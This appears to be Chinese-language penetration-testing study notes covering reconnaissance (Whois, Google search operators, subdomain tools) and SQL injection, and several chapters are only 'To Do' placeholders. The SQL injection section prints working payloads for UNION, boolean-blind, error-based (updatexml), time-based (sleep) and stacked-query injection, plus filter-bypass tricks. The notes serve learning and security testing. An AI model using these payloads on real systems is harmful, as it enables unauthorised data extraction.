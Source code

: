 ## 第1章 渗透测试之信息收集

### 1.收集域名信息

Whois查询：在Kali中Whois已经默认安装，只需输入要查询的域名即可，也可以通过站长之家等在线查询网站查询。

备案信息查询：ICP备案查询网、天眼查

收集敏感信息：

使用Google的常用语法搜集一些敏感信息

| 关键字   | 说明                                             |
| -------- | ------------------------------------------------ |
| Site     | 指定域名                                         |
| Inurl    | URL中存在关键字的网页                            |
| Intext   | 网页正文中的关键字                               |
| Filetype | 指定文件类型                                     |
| Intitle  | 网页标题中的关键字                               |
| link     | link:baidu.com即返回所有和baidu.com做了链接的URL |
| Info     | 查找指定站点的一些基本信息                       |
| cache    | 搜索Google里关于某些内容的缓存                   |

### 2.收集子域名信息

子域名检测工具：常用的工具有Layer子域名挖掘机、Sublist3r和subDomainsBrute等。

搜索引擎枚举：使用site语法列举子域名。

### 3.收集常用端口信息

To Do：Nmap的使用场景和常用端口的功能与攻击实例

### 4.收集敏感目录文件

To Do：网站目录扫描工具的用例

## 第2章 搭建漏洞环境及实战

To Do：实践搭建和攻击过程

## 第3章 常用的渗透测试工具

To Do：SQLmap等工具的安装和实践

## 第4章 Web安全原理剖析

### 1.SQL注入

#### information_schema数据库

在该库中，有三个重要的表名，分别是SCHEMATA、TABLES和COLUMNS。

SCHEMATA表存储该用户创建的所有数据库的库名，该表中记录数据库库名的字段名为SCHEMA_NAME。

TABLES表存储该用户创建的所有数据库的库名和表名，该表中记录数据库库名和表名的字段名分别为TABLE_SCHEMA和TABLE_NAME。

COLUMNS表存储该用户创建的所有数据库的库名、表名和字段名，该表中记录数据库库名、表名和字段名的字段名为TABLE_SCHEMA、TABLE_NAME和COLUMN_NAME。

#### limit的用法

limit的使用格式为limit m,n，其中m是指记录开始的位置，从0开始，表示第1条记录，n是指取n条记录。

#### 注释和内联注释

在mysql中，常见的注释符的表达方式：#或--空格或/**/。

内联注释的形式：/*! code */。内联注释可以用于整个SQL语句中用来执行我们的SQL语句，例如：

```php
index.php?id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
```

#### 布尔注入的用法

可以通过数据库操作函数判断数据库名长度、字符、字段名和条目内容等信息。

```php
?id = 1' and length(database()) >= 5#
```

利用截取函数获取数据库的库名，与limit不同的是，substr函数从1开始排序，可以使用Burp功能或python自动化脚本实施爆破。

```php
?id = 1' and substr(database(),1,1) = 't'#
```

对于一些过滤手段，可以使用ASCII码进行查询，如s的ASCII码是115，转换函数为ord，可以修改语句为

```php
?id = 1' and ord(substr(database(),1,1)) = 115#
```

用查询语句替换database()即可爆破其他内容。

```php
?id = 1' and substr((select table_name from information_schema.tables where table_schema = 'sql' limit 0,1),1,1) = 'e'#
```

#### 报错注入的用法

```php
' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'test' limit 0,1),0x7e),1)#
```

#### 时间盲注的用法

```sql
select * from users where 'id' = '1' and if(ord(substring(user(),1,1))=114,sleep(3),1)#
```

#### 堆叠注入的用法

堆叠查询可以执行多条语句，多语句之间以分号隔开。

```php
id = 1';select if(substr(user(),1,1) = 'r',sleep(3),1)#
```

使用PDO执行SQL语句时，可以执行多语句，不过这样通常不能直接得到注入结果，因为PDO只会返回第一条SQL语句执行的结果，所以在第二条语句中可以用update更新数据或者使用时间盲注获取数据。

```sql
SELECT * FROM users where 'id' = '1';select if(ord(substring(user(),1,1)) = 114,sleep(3),1);#
```

#### 其他注入的原理和案例

To Do：二次注入攻击、宽字节注入攻击、cookie注入攻击、base64攻击

#### SQL注入绕过技术

大小写绕过注入、双写绕过注入、编码绕过注入（通常需要两次URL编码）
